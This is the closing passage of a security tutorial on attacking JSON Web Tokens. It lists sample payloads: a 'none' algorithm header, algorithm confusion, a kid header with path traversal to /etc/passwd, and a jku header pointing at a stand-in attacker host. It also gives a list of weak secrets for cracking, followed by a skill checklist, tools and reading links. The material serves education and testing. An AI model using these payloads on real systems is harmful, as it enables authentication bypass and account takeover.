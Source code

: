 ### Common Payloads
```python
# None algorithm
{"alg":"none","typ":"JWT"}

# Algorithm confusion
{"alg":"HS256","typ":"JWT"}  # Changed from RS256

# Header injection
{"alg":"HS256","typ":"JWT","kid":"../../etc/passwd"}
{"alg":"RS256","typ":"JWT","jku":"http://evil.com/jwks"}

# Weak secrets to try
secrets = ["secret", "password", "123456", "key", "admin", "jwt", "token"]
```

---

## 🏆 Skill Check

Before moving on, make sure you can:

- [ ] Decode and understand JWT structure
- [ ] Exploit "none" algorithm vulnerability
- [ ] Perform algorithm confusion attacks
- [ ] Crack weak JWT secrets
- [ ] Exploit header injection vulnerabilities
- [ ] Implement secure JWT handling

---

## Additional Resources

### 🔧 Tools
- **jwt_tool**: Swiss army knife for JWT testing
- **JWT.io**: Online JWT decoder/encoder
- **JWTCrack**: Fast JWT cracker
- **Burp JWT Extensions**: Various JWT plugins

### 📖 Further Reading
- [JWT RFC 7519](https://tools.ietf.org/html/rfc7519)
- [JWT Security Best Practices](https://tools.ietf.org/html/rfc8725)
- [OWASP JWT Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html)

### 🎥 Video Resources
- [LiveOverflow - JWT Security](https://www.youtube.com/watch?v=NrpDrL3ZYvg)
- [PentesterLab - JWT Tutorial](https://pentesterlab.com/exercises/jwt)

---

**Next Tutorial**: [GraphQL Security](graphql.md) → 